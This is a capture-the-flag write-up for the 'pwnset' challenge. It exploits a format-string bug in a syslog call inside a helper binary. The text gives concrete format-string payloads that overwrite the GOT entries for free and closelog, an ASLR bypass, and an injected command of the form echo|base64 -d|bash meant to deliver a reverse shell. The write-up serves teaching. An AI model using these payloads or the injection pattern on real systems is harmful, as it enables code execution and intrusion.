



# pwnset - Full RELRO + PIE + Canary in main, No RELRO + no PIE in log


## Binaries
- `chal` - main menu binary
- `log`  - helper logger executed as `./log -u USERNAME -a AGE`

## Analysis

checksec for `chal`:
- Canary - ✓ 
- NX - ✓ 
- PIE - ✓ 
- Fortify - ✘ 
- RelRO - Full

Checksec for `log`:
- Canary - ✘
- NX - ✓ 
- PIE - ✘
- Fortify - ✘ 
- RelRO - ✘

Quick overwiev of programs behavior:

The main executable is `chal`, it can:
1. register username and age
2. retrieve age by username

It uses `log` as subroutine when registering username, to output some data to system logs

I didn't notice any vulnerabilities in `chal`, so lets move to `log`:

1. it retrieve some arguments: `-u USERNAME` and `-a AGE`
2. it checks username for `non-printable` characters
3. with this data, it creates heap in this format: `{'username':'USERNAME','age':AGE}`
4. then it calls `syslog(5, heap)`

That's all! now lets look closer to it, as we can see: `log` binary calls `syslog(5, heap)`, еhe vulnerability is the **format-string bug in `syslog(5, heap)`**, more info [here](https://pwn.college/software-exploitation/format-string-exploits/)


```
   0x000000000040177e <+791>:   mov    eax,0x0
   0x0000000000401783 <+796>:   call   0x401230 <syslog@plt> <----- VULNERABLE!!!
   0x0000000000401788 <+801>:   mov    rax,QWORD PTR [rbp-0x30]
   0x000000000040178c <+805>:   mov    rdi,rax
   0x000000000040178f <+808>:   call   0x401160 <free@plt>
   0x0000000000401794 <+813>:   call   0x401170 <closelog@plt>
   0x0000000000401799 <+818>:   mov    eax,0x0
   0x000000000040179e <+823>:   leave
   0x000000000040179f <+824>:   ret

```

## Exploitation

### Exploitation Overview
One-shot chain inside **username** (max 999 bytes):
1. Overwrite `free@got` → `ret` (preserve heap)  
2. Overwrite first two bytes of heap → `': '` (hide fmtstr garbage from shell)  
3. Leak a libc pointer from the stack, compute `system()` address, overwrite `closelog@got` → `system()`  
4. Payload → base64-encoded reverse shell, executed via `closelog()` → `system(payload)`

### First step: preventing free() from freeing our heap
We need the heap chunk to stay alive.
Idea: overwrite GOT section for `free()` with main function `ret` to NOP it.

First: we need to get `free()` GOT address, which is `0x403458`, first idea was apppending its address at the end of the username, but username can't contain non-printable characters, so we need another method. After few minutes I remembered the `-a AGE` argument that our binary needed, so lets put it in there with `-a 4207704` so now our stack looks like this:
```
...
0x7fffffffdba0: 0x0000000000000000                            0x0000000000000000
0x7fffffffdbb0: 0x0000000000000000                            0x0000000000000000
0x7fffffffdbc0: 0x00000000004060e0 <- start of our heap (141) 0x0000000000403458 <- free() section address (142)
0x7fffffffdbd0: 0xffffffff00000000                            0x0000000000401376
0x7fffffffdbe0: 0x00007fffffffe0e6                            0x00007fffffffe0de
...
```

With this data i constructed payload: `%142$6034c%142$hn`

Quick overview: 
- `%142$6034c` - increasing internal counter from `0xD` to `0x179F`
- `%142$hn` - overwriting 2 bytes on address `0x403458` with `179F`
 
### Second step: reventing system() from errors
`: ` is **null command**, in simple words special character that's making bash to ignore command after, we are owerwriting start of the heap with it, so `system()` will ignore junks of data that we don't need.

To do that, we will be using this payload - `%141$2203c%141$hn`

Lets break it down:
- `%141$2203c` is increasing internal counter from `0x179F` to `0x203A` (` :`)
- `%141$hn` is overwriting content of 141's address with `: ` (little-endian)

### Third step: make closelog() call system() instead
To do that, we need to bypass ASLR, but how to do that? actually its pretty easy, all we need is to find any libc function address on stack that is **smaller that** `system()`, and utilize it using *dynamic padding size*: `%*168$c%ARG$181387c%ARG$n` (ARG is the address of `closelog()` on GOT table, we'll get it dynamically depending on payload size)

- `%*168$c` - getting 168 argument from stack, and dynamically increase counter with its first 4 bytes
- `%ARG$181387c` - increasing counter with `0x2C48B` (to aling address to `system()`)
- `%ARG$n` - overwriting `closelog()` address with `system()`

payload strings could look like these:


### Fourth step: writing our payload
Your payload can't contain spaces, or `chal` will interpret it wrong, so instead of them we'll be using `${IFS}` (analogue for space for bash)

It will be look like this: `${IFS};echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash;`

And also we need to write `closelog()` address at the end of our heap, so we'll be using `${IFS}:${IFS}'`, then padding to aling it, and then address. Final payload could look like this: ``%142$6034c%142$hn%141$2203c%141$hn%*168$c%28$181387c%28$n${IFS};touch${IFS}'pwned';${IFS}:${IFS}'${IFS}A`4@``



I hope this writeup was useful!